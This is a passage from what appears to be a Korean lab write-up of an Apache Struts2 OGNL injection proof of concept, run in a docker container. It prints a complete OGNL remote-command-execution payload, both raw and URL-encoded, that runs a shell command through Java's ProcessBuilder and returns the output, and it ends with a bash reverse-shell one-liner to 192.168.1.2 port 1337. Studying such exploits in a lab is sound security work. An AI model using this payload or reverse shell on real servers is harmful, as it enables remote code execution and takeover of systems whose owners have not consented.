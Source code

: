 컨테이너 재시작

```
$ exit
$ docker restart struts2
```



## 2. PoC

1. Apache Struts2 정상 동작 확인

   ![스크린샷 2021-10-30 오후 10 59 23](https://user-images.githubusercontent.com/89399749/139540805-7723b325-3505-44e0-b259-5247abf2d1b1.png)
#
 
2. curl을 통해 OGNL 표현식이 변환된 것을 확인

   <img width="837" alt="스크린샷 2021-10-30 오후 11 01 29" src="https://user-images.githubusercontent.com/89399749/139540809-a30e7c7d-7210-409b-9456-acee2bbdac27.png">
#

   

3. 삽입 될 페이로드 

   ```
   ${(#_memberAccess['allowStaticMethodAccess']=true).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','c',#cmd}:{'bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
   ```
#


4. URL 인코딩한 페이로드 

   ```
   %24%7B%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29.%28%23cmd%3D%27id%27%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27c%27%2C%23cmd%7D%3A%7B%27bash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%23ros%3D%28%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getOutputStream%28%29%29%29.%28%40org.apache.commons.io.IOUtils%40copy%28%23process.getInputStream%28%29%2C%23ros%29%29.%28%23ros.flush%28%29%29%7D
   ```
#


5. curl을 통해 명령어 삽입하여 id값 추출
 
   <img width="584" alt="스크린샷 2021-10-30 오후 4 58 45" src="https://user-images.githubusercontent.com/89399749/139540818-7ced94b1-c03f-4ec0-8b09-3534986e3bf7.png">
#

6. 리버스 쉘을 실행시키기 위한 명령어

   ```
   bash -i >& /dev/tcp/192.168.1.2/1337 0>&1
   ```
